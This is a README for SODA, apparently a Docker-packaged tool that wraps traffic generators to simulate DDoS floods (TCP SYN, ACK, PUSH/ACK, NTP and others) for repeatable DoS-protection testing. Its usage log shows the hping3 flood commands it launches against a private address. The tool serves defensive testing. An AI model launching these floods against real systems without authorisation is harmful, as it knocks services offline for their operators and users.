 # Simulation of DDoS Attacks
## Description
SODA wraps up together multiple traffic generation tools to symplify and unify DoS protection testing. It allows to send any kind DoS attack by specifying its name without figuring out flags for particular traffic generation tool.
Such approach also allows to standardize DoS posture testing because attack patterns are repeatable..
## Features
- Large list of predefined DoS attacks
- Sends single attack vector or morphs vector with predefined pattern and interval
- Automatically scales particular attack tool to multiple CPU cores
# Usage
1. Build SODA image
```
attacker@host$ docker build -t . soda
```
2. List all avaliable attacks and pick attack ID
```
attacker@host$ docker run --rm soda -l
0: TCP SYN Flood
1: NTP Flood
2: TCP SYN/ACK Flood
3: NTP Non-standard Port Flood
4: TCP Zero Sequence Flood
5: TCP ACK Flood
6: TCP PUSH/ACK Flood
```
3. Launch SODA
```
attacker@host$ docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock soda -d http://10.11.73.12/url.html -n vlan973 -i 3 -a 4
2019-08-01 18:20:30.350264 ATTACK START: TCP Zero Sequence Flood: hping3 -S -p 80 -M 0 --flood 10.11.73.12
2019-08-01 18:20:38.004443 ATTACK STOP: TCP Zero Sequence Flood
2019-08-01 18:20:38.034628 ATTACK START: TCP ACK Flood: hping3 -A -p 80 --flood 10.11.73.12
2019-08-01 18:20:45.697750 ATTACK STOP: TCP ACK Flood
2019-08-01 18:20:45.729307 ATTACK START: TCP PUSH/ACK Flood: hping3 -PA -p 80 -d 64 --flood 10.11.73.12
2019-08-01 18:20:53.370087 ATTACK STOP: TCP PUSH/ACK Flood
^CKilling all running containers...
goofy_keldysh
```
